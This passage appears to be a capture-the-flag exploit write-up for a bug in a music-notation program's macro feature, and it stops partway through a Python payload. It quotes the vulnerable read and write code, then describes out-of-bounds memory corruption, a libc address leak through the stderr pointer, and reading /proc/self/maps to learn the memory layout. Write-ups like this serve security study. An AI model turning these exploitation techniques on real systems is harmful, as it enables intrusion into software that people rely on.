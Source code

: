 There are two things that can be done with macro:
1. read macro value 
2. write macro value

First, the read:

```cpp
      if (debugMode()) {
	printf("Inserting macro %s text \"%s\"\n",
	       playtag, macro_text[playID-1]);
	printf("Buffer before insert: %s\n", LINK->buf);
      }
      sprintf(LINK->buf, "%s%s",
	      macro_text[playID-1], strcpy(STR5, LINK->buf));
      return;
```

Fortunately for us we can gain libc leak by reading stderr pointer which perfectly aligns with **0x100** bytes indexing, but as we will learn later there's an easier way to get leak.

Write is performed in similar manner but there's a little nuance:

```cpp
  do {
    GetNextWord(w, LINK->buf, blank, dummy);
    if (*w == '\0') {
      sprintf(STR1,
	"Macro definition %s should be terminated on the same input line",
	playtag);
      error(STR1, print);
    }
    if (!strcmp(w, "M")) {
      if (debugMode())
	printf("Macro %s is: %s\n", playtag, macro_text[playID-1]);
      break;
    }
    if (w[0] == 'M' && strlen(w) > 1) {
      if (w[1] != 'P' || identifyMacro(w) == playID) {
	sprintf(STR7, "%s not allowed inside macro definition %s", w, playtag);
	error(STR7, print);
      }
    }
    sprintf(macro_text[playID-1] + strlen(macro_text[playID-1]), "%s ", w); // < it's not just %s it's %s + " "
```

Not only we cant write null bytes but it also appends a "\x20" (whitespace) at the end so we need a bit better primitive for pointer corruption. Also no partial overwrites since it indexes by **0x100** bytes.

Before we proceed to corruptions, how do we get leaks? Simply include `/proc/self/maps`. ~~or you can also waste couple of hours by gaining better write primitive -> corrupting stylefilename variable -> including proc self maps -> dumping it from meory~~

```py
data ="L"* 0xb0

payload = """
ENABLE: debugMode
ENABLE: beVerbose
ENABLE: ignoreErrors
ENABLE: expandMacro
Style: Woodwind Violins
Violins: Voices Violini; Clefs G
Woodwind: Voices FlObCl; Clefs G
Flats: 1
meter: C

```